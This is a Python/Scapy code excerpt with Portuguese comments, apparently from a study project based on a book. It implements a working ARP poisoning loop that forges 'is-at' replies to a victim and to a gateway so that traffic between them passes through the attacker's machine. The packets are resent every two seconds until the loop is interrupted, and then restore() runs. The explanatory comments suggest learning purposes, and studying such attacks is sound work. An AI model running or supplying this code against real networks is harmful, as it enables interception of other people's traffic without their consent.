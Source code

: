 ```py
        # Instancia da primeira mensagem ARP
        poison_victim = ARP()
        poison_victim.op = 2                                    # op = 'is-at'
        poison_victim.psrc = self.gateway                       # o IP source deve ser do gateway, para simular que o próprio roteador está enviando a mensagem
        poison_victim.pdst = self.victim                        # o IP deve ser o IP da vítima (pois a mensagem é para ela)
        poison_victim.hwdst = self.victimmac                    # o MAC destino é o da vítima (pois a mensagem é para ela)
        poison_victim.hwsrc = get_if_hwaddr(self.interface)     # o MAC source deve ser o nosso, para ela entender que nós somos o roteador
        print(f'IP de origem: {poison_victim.psrc}')
        print(f'IP de destino: {poison_victim.pdst}')
        print(f'MAC de destino: {poison_victim.hwdst}')
        print(f'MAC de origem: {poison_victim.hwsrc}')
        print(poison_victim.summary())                          # Print de resumo da mensagem
        print('-'*30)
        
        poison_gateway = ARP()                                  # Algo equivalente mas configurado para o roteador
        poison_gateway.op = 2
        poison_gateway.psrc = self.victim
        poison_gateway.pdst = self.gateway
        poison_gateway.hwdst = self.gatewaymac
        poison_gateway.hwsrc = get_if_hwaddr(self.interface)
        print(f'IP de origem: {poison_gateway.psrc}')
        print(f'IP de destino: {poison_gateway.pdst}')
        print(f'MAC de destino: {poison_gateway.hwdst}')
        print(f'MAC de origem: {poison_gateway.hwsrc}')
        print(poison_gateway.summary())
        print('-'*30)
        
        print(f'Iniciando o envenenamento ARP. [CTRL+C para interromper]')
        # Loop até o stop_event (Ctrl+C ou fim da função sniffing)
        while not stop_event.is_set():
            sys.stdout.write('.')       # sys.write() armazena no buffer de escrita a mensagem
            sys.stdout.flush()          # sys.flush() escreve todo o buffer no terminal e limpa-o
            try:
                # Nessa parte o código difere do livro, pois nas versões recentes do Scapy, a função `send()`,
                # usada originalmente, mandava pacotes tanto para a camada 3 (Rede, onde fica o IP, por exemplo)
                # quanto para a camada 2 (Enlace, onde fica o ARP, que desejamos). Isso causava um WARNING 
                # indesejado no terminal.
                #
                # Já a função `sendp()` envia um pacote específico para a camada 2, na Ethernet da interface local
                # assim como o feito para descobrirmos os MAC. Anteriormente eram enviados para o `dst` (destination)
                # ff:ff:ff:ff:ff:ff (que é um broadcast, pois é uma busca ampla para achar os MACs), mas agora devem ser
                # enviados os pacotes especificamente para a vítima e para o gateway
                sendp(Ether(dst=self.victimmac)/poison_victim, verbose=False)
                sendp(Ether(dst=self.gatewaymac)/poison_gateway, verbose=False)
                time.sleep(2)
            # No Ctrl+C executa o `restore()`, que é uma função de envio da recorreção dos ARPs para os MACs originais
            except KeyboardInterrupt:
                self.restore()
                stop_event.set()
                sys.exit()
                break
```